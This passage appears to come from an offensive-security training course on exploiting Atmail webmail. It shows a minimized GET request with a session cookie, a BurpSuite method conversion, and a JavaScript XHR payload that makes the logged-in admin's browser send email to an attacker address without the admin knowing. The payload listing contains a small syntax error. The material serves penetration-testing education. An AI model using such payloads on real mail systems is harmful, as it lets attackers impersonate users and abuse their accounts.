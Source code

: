 And this is our final minimized request we will use going forward:

GET /index.php/mail/composemessage/send/tabId/viewmessageTab1?emailTo=admin%40offsec.local&emailSubject=hacked!&emailBodyHtml=This+is+a+test+email! HTTP/1.1
Host: atmail
Cookie: atmail6=16t8al21shffhdh01e2vvclk96
Listing 15 - The raw GET request that sends an email after it has been minimized

As you may have noticed, in this particular case, we were able to convert the original POST request into a GET request. The easiest way to do so is via the BurpSuite Repeater functionality. By right-clicking the POST request in the Repeater, we are presented with a popup menu that has several options.

Figure 10: Changing the request type in BurpSuite's Repeater
Figure 10: Changing the request type in BurpSuite's Repeater
Selecting Change request method will convert the POST request to a GET request.

Please note that we are not required to change the request method to successfully minimize the request. We are doing so only to demonstrate this BurpSuite functionality. Moreover this conversion is not always possible as it depends on how the web application request handler is implemented. In this instance Atmail accepts both methods for this particular request.

16.3.3. Developing the Session Riding JavaScript Payload
After minimizing the HTTP request, we can now start developing the JavaScript code that will execute this attack in the context of the admin user directly from the victim browser.

In the following example, we are going to send the email to our own email account on the Atmail server (attacker@offsec.local). Please note that this account was created only to better see the outcome of the attack. The attacker obviously does not need an account on the target server.

We will create a new JavaScript file called atmail_sendmail_XHR.js containing the code from Listing 16. If this code executes correctly, it should send an email to the attacker@offsec.local email address on behalf of the admin@offsec.local user. Most importantly, this will all be automated and done without any interaction by the logged-in admin Atmail user.

var email   = "attacker@offsec.local";
var subject = "hacked!";
var message = "This is a test email!";

function send_email()
{
   var uri ="/index.php/mail/composemessage/send/tabId/viewmessageTab1";
   var query_string = "?emailTo=" + email + "&emailSubject=" + subject + "&emailBodyHtml= + message;
   
   xhr = new XMLHttpRequest();
   xhr.open("GET", uri + query_string, true);
   xhr.send(null);
}

send_email();
Listing 16 - Code that sends an email to attacker@offsec.local

Note that the code from Listing 16 is implementing the minimized GET request we gathered from the previous section. More importantly, notice how the JavaScript code does not use any cookies. This is because we are simulating the request forgery attack by executing this script from the browser that is already logged in to the Atmail application as admin@offsec.local.

